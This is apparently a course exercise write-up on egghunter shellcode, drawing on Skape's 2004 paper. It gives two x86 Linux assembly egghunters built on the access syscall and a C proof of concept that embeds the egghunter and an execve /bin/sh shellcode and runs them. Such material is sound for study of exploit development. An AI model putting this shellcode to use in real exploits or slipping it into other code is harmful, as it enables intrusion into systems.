 # Exercise 3


It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice, so . The technique is based on the system calls, given they can *validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*, using them to check if the memory is readable and later if the tag has been reached.

The two egghunters studied use the same syscall: access.

![Screenshot](images/1.png)


### Egghunter 1

```
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

It is tested with the execve shellcode as payload:

![Screenshot](images/2.png)




### Egghunter 2

```
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```

It is tested with the execve shellcode as payload:

![Screenshot](images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise:


```
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"

unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879